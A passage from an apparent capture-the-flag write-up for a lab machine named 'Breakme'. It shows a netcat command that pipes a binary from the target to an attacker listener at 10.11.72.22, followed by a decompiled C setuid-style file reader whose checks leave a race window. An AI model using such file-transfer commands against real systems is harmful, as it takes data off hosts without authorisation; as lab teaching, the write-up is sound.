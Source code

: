 Downloading the `readfile` binary using `nc`.

```console
$ nc -lvnp 443 > readfile

john@Breakme:~$ nc 10.11.72.22 443 < /home/youcef/readfile
```

Examining it in `Ghidra` and cleaning it up a bit, we end up with:

```c
if (argc != 2) {
    puts("Usage: ./readfile <FILE>");
    return 1;
} else if (access(argv[1], F_OK)) {  // checks if the file exists
    puts("File Not Found");
    return 1;
} else if (getuid() != 1002) {	// checks the running user is john
    puts("You can't run this program");
    return 1;
} else {
    includes_flag = strstr(argv[1], "flag");     // checks if the supplied argument includes "flag"
    includes_id_rsa = strstr(argv[1], "id_rsa"); // checks if the supplied argument includes "id_rsa"

    lstat(argv[1], &stat_buf);
    is_symlink = (stat_buf.st_mode & S_IFMT) == S_IFLNK;  // checks if the supplied file is a SYMLINK

    can_read = access(argv[1], R_OK);  // checks if the user john can read the supplied file
    
    usleep(0);	// will cause a delay
    
    if (!includes_flag && !includes_id_rsa && can_read != -1 && !is_symlink) // if it does not include "flag" or "id_rsa"
    {                                                                        // is not a symlink and john can read it
        puts("I guess you won!\n");											   
        fd = open(argv[1], O_RDONLY);  // open the file for reading                    
        
        if (fd < 0) {
            assert(fd >= 0 && "Failed to open the file");
        }
        
        do {
            bytes_read = read(fd, file_content_buf, 1024);  // read and print the file in chunks of 1024 bytes
            if (bytes_read < 1) break;
            bytes_written = write(STDOUT_FILENO, file_content_buf, bytes_read);
        } while (bytes_written > 0);
        
        return 0;
    }
    
    puts("Nice try!");
    return 1;
}
```
